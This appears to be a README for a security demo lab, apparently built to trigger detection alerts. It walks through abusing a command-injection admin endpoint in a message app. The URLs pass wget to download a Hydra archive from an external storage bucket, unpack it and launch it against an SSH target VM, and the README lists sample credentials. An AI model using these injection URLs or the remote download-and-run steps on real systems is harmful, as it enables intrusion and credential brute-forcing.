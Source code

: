 # Hydra scenario

This application lets you write messages, whatever they are (it is certainly possible to hack the message form by itself).
This is entirely managed in-memory, so dev team decided to add endpoints where you can check your log file and decide to load messages directly from the log in case of a restart.

Hitting the http://{yourhost}:{port}/ will let you add messages. 

Hitting http://{yourhost}:{port}/admin lets you start the actual hack by passing command

# Prerequisites
Prepare a VM with ssh enabled and get its ip to launch hydra against this specific machine.

Also you can add a user Molly with this password 04Darter_Dew to ensure Hydra will be able to connect on the VM you hosted.
You can change the username and adapt the 7th command.

# Steps

1. Start browsing the app at http://{yourhost}:{port}/, explaining this is the same scenario as having [EVAL command available in Redis](https://redis.io/commands/eval).
2. Then move to the admin page and show the tail or cat command. 
3. Explain you have those links to decide if you'll hydrate messages from the log file or not. But there is an issue as the cat/tail link let you run arbitrary command on the host.
4. Type in the url bar http://{yourhost}:{port}/admin/ops?cmd=wget&args=https://storage.googleapis.com/nwlw-raw-data/sapp.tar.gz . This will download a Hydra pre-packed zip file. (should triggered the 1st alert in LW)
5. Go to http://{yourhost}:{port}/admin/ops?cmd=tar&args=-xzf,sapp.tar.gz Uncompress the file
5. Go to http://{yourhost}:{port}/admin/ops?cmd=./launch.sh&args={target machine ip}